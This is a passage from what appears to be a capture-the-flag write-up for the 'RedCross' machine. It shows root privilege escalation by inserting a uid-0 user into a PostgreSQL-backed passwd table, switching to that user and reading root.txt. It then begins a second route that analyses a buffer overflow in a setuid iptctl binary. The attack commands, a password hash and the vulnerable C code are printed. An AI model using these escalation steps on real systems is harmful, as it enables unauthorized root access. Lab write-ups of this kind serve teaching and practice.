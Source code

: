 This user can add a user with user id 0 (root):

```

unix=> insert into passwd_table (username, passwd, uid, gid, homedir) values ('r0xdfot', '$1$wV7CPbj9$59kAklYgquXe5TuJYIT591', 0, 0, '/root');
INSERT 0 1

```

Now I can exit `pgsql` and sudo into my new user:

```

ro0xdft@redcross:/etc$ su r0xdfot
Password: 
r0xdfot@redcross:/etc# id
uid=0(r0xdfot) gid=0(root) groups=0(root)

```

And read `root.txt`:

```

r0xdfot@redcross:~# cat root.txt 
892a1f4d...

```

### Path 3: BOF in iptctl

#### Enumeration

From my shell as www-data or penelope, I have access to the `iptctl` binary:

```

penelope@redcross:/dev/shm$ ls -l /opt/iptctl
total 16
-rwsr-sr-x 1 root root 13152 Jun 10  2018 iptctl

```

It makes sense that it’s setuid, as only root can mess with the firewall rules, and I know it’s called by the php applications which are not running as root.

#### Source Analysis

The overflow happens in the `interactive` function:

```

#define BUFFSIZE 360

void interactive(char *ip, char *action, char *name){
        char inputAddress[16];
        char inputAction[10];
        printf("Entering interactive mode\n");
        printf("Action(allow|restrict|show): ");
        fgets(inputAction,BUFFSIZE,stdin);
        fflush(stdin);
        printf("IP address: ");
        fgets(inputAddress,BUFFSIZE,stdin);
        fflush(stdin);
        inputAddress[strlen(inputAddress)-1] = 0;
        if(! isValidAction(inputAction) || ! isValidIpAddress(inputAddress)){
                printf("Usage: %s allow|restrict|show IP\n", name);
                exit(0);
        }
```